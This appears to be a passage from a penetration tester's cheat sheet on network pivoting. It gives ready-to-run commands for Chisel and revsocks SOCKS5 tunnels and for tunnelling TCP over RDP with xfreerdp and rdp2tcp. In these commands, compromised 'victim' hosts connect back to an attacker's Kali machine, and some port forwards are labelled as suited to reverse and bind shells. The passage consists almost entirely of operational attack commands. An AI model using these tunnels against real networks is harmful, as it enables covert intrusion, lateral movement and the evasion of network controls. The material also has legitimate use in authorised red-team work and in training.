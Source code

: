 Socks5 proxy with Chisel in server mode:

```text
alice@victim:$ ./chisel server -p 8000 --socks5 &
root@kali:$ ./chisel client 10.10.13.38:8000 socks
```

Socks5 proxy with Chisel in server mode when direct connection to server is not available \(not relevant as Chisel supports socks5 in client mode now\):

```text
root@kali:$ ./chisel server -p 8000 --reverse
alice@victim:$ ./chisel client 10.10.13.37:8000 R:127.0.0.1:8001:127.0.0.1:8002 &
alice@victim:$ ./chisel server -v -p 8002 --socks5 &
root@kali:$ ./chisel client 127.0.0.1:8001 1080:socks
```

Socks5 proxy with Chisel in client mode:

```text
root@kali:$ ./chisel server -p 8000 --reverse --socks5 [--auth snovvcrash:'Passw0rd!']
alice@victim:$ ./chisel client [--fingerprint <BASE64_STRING>] [--auth snovvcrash:'Passw0rd!'] 10.10.13.37:8000 R:socks
```

## revsocks

* [https://github.com/kost/revsocks](https://github.com/kost/revsocks)

```text
root@kali:$ ./revsocks -listen :8000 -socks 127.0.0.1:1080 -pass 'Passw0rd!'
alice@victim:$ ./revsocks -connect 10.14.14.3:8000 -pass 'Passw0rd!'
```

## TCP over RDP

* [https://ijustwannared.team/2019/11/07/c2-over-rdp-virtual-channels/](https://ijustwannared.team/2019/11/07/c2-over-rdp-virtual-channels/)

### xfreerdp + rdp2tcp

* [https://github.com/V-E-O/rdp2tcp](https://github.com/V-E-O/rdp2tcp)
* [https://github.com/NotMedic/rdp-tunnel](https://github.com/NotMedic/rdp-tunnel)

```text
$ xfreerdp /u:snovvcrash /p:'Passw0rd!' [/d:megacorp.local] /v:PC01.megacorp.local /dynamic-resolution /drive:www,/home/snovvcrash/www +clipboard /rdp2tcp:/home/snovvcrash/tools/rdp-tunnel/rdp2tcp
```

Reverse local port 9002 \(on Victim\) to local port 9001 on Attacker \(good for reverse shells\):

```text
$ python rdp2tcp.py add reverse 127.0.0.1 9001 127.0.0.1 9002
```

Forward local port 9001 \(on Attacker\) to local port 9002 on Victim \(good for bind shells\):

```text
$ python rdp2tcp.py add forward 127.0.0.1 9001 127.0.0.1 9002
```
